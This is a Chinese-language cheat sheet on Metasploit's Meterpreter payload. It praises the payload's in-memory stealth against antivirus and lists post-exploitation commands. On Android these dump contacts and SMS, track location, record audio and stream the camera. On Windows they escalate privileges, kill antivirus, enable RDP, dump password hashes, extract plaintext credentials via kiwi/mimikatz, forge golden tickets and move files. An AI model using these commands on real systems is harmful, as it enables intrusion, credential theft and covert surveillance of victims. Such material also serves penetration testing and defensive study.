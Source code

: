 # 一、 Meterpreter是什么

Meterpreter是Metasploit框架中的一个利器，作为漏洞溢出后的**攻击载荷**使用，攻击载荷在触发漏洞后会返回一个由我们控制的通道，可用于远程执行命令!
Metasploit提供了各个主流平台的Meterpreter版本，包括Windows、Linux，同时支持x86、x64平台，另外，Meterpreter还提供了基于PHP和Java语言的实现。Meterpreter的工作模式是纯内存的，好处是启动隐藏，很难被杀毒软件监测到。不需要访问目标主机磁盘，所以也没什么入侵的痕迹。除上述外，Meterpreter还支持Ruby脚本形式的扩展。所以Ruby语言还很有必要了解下。

# 二、Meterpreter中常用的反弹类型

1.reverse_tcp
这是一个基于TCP的反向链接反弹shell, 使用起来很稳定

# 三、Meterpreter的常用命令

## 1.基本命令

`help`# 查看Meterpreter帮助

`background`#返回，把meterpreter后台挂起

`bgkill`# 杀死一个 meterpreter 脚本

`bglist`#提供所有正在运行的后台脚本的列表

`bgrun`#作为一个后台线程运行脚本

`channel`#显示活动频道

`sessions -i number` # 与会话进行交互，number表示第n个session,使用session -i 连接到指定序号的meterpreter会话已继续利用

`sesssions -k  number` #与会话进行交互

`close`# 关闭通道

`exit`# 终止 meterpreter 会话

`quit`# 终止 meterpreter 会话

`interact id` #切换进一个信道

 `run`#执行一个已有的模块，这里要说的是输入run后按两下tab，会列出所有的已有的脚本，常用的有autoroute,hashdump,arp_scanner,multi_meter_inject等

 `irb`# 进入 Ruby 脚本模式

 `read`# 从通道读取数据write# 将数据写入到一个通道

 `run`和`bgrun`# 前台和后台执行以后它选定的 meterpreter 脚本

`use`# 加载 meterpreter 的扩展

`load/use`#加载模块

 `Resource`#执行一个已有的rc脚本

## 2  常用命令

### 2.1 针对安卓手机的一些命令

获取手机通讯录： `dump_contacts`

获取短信记录：`dump_sms`

控制实验手机发短信：`send_sms -d 15330252525 -t "hello"`

获取实验手机GPS定位信息：`geolocate`

获取实验手机Wi-Fi定位信息：`wlan_geolocate`

控制实验手机录音：`record_mic -d  5`

获取实验手机相机设备：`webcam_list`

控制实验手机拍照 ：`webcam_snap`

直播实验手机摄像头：`webcam_stream`

### 2.2 针对Windows的一些命令

查看进程：`ps`

查看当前进程号：`getpid`

查看**系统信息**：`sysinfo`

查看目标机是否为虚拟机：

`run post/windows/gather/checkvm`

查看完整网络设置：`route`

查看**当前权限**：`getuid`

自动提权：`getsystem`

关闭杀毒软件：`run post/windows/manage/killav`

启动远程桌面协议：`run post/windows/manage/enable_rdp`

列举当前登录的用户：

`run post/windows/gather/enum_logged_on_users`

查看当前应用程序：

`run post/windows/gather/enum_applications`

抓取目标机的**屏幕截图**：`load espia` ； `screengrab`

获取相机设备：`webcam_list`

控制拍照 ：`webcam_snap`

**直播摄像头**：`webcam_stream`

 **观看屏幕**：`run vnc`

控制录音：`record_mic`

查看**当前目录**：`pwd`

查看当前目录：`getlwd`

导出**当前用户密码哈希**  `run hashdump`

用户名：SID：LM哈希：NTLM哈希:::

也可以使用下面这个命令导出 权限更高   

`run windows/gather/smart_hashdump`

抓取**自动登录的用户名和密码**  

`run windows/gather/credentials/windows_autologin`

直接获取明文密码（注意这个功能需要获取系统权限  获取系统权限需要输入getsystem）

首选终端输入  `load kiwi`    加载kiwi

`creds_all`：列举所有凭据
`creds_kerberos`：列举所有kerberos凭据
`creds_msv`：列举所有msv凭据
`creds_ssp`：列举所有ssp凭据
`creds_tspkg`：列举所有tspkg凭据
`creds_wdigest`：列举所有wdigest凭据
`dcsync`：通过DCSync检索用户帐户信息
`dcsync_ntlm`：通过DCSync检索用户帐户NTLM散列、SID和RID
`golden_ticket_create`：创建黄金票据
`kerberos_ticket_list`：列举kerberos票据
`kerberos_ticket_purge`：清除kerberos票据
`kerberos_ticket_use`：使用kerberos票据
`kiwi_cmd`：执行mimikatz的命令，后面接mimikatz.exe的命令
`lsa_dump_sam`：dump出lsa的SAM
`lsa_dump_secrets`：dump出lsa的密文
`password_change`：修改密码
`wifi_list`：列出当前用户的wifi配置文件
`wifi_list_shared`：列出共享wifi配置文件/编码

## 3.文件系统命令

cat c:\boot.ini#查看文件内容,文件必须存在

del c:\boot.ini #删除指定的文件

upload /root/Desktop/netcat.exe c:\ # 上传文件到目标机主上，如upload  setup.exe C:\\windows\\system32

download nimeia.txt /root/Desktop/   # 下载文件到本机上如：download C:\\boot.ini /root/或者download C:\\"ProgramFiles"\\Tencent\\QQ\\Users\\295******125\\Msg2.0.db /root/

edit c:\boot.ini  # 编辑文件

getlwd#打印本地目录

getwd#打印工作目录

lcd#更改本地目录

ls#列出在当前目录中的文件列表

lpwd#打印本地目录

pwd#输出工作目录

cd c:\\ #进入目录文件下

rm file #删除文件

mkdir dier #在受害者系统上的创建目录

rmdir#受害者系统上删除目录

dir#列出目标主机的文件和文件夹信息

mv#修改目标主机上的文件名

search -d d:\\www -f web.config #search 文件，如search  -d c:\\  -f*.doc
meterpreter > search -f autoexec.bat  #搜索文件
meterpreter > search -f sea*

.bat c:\\xamp\\

enumdesktops     #用户登录数
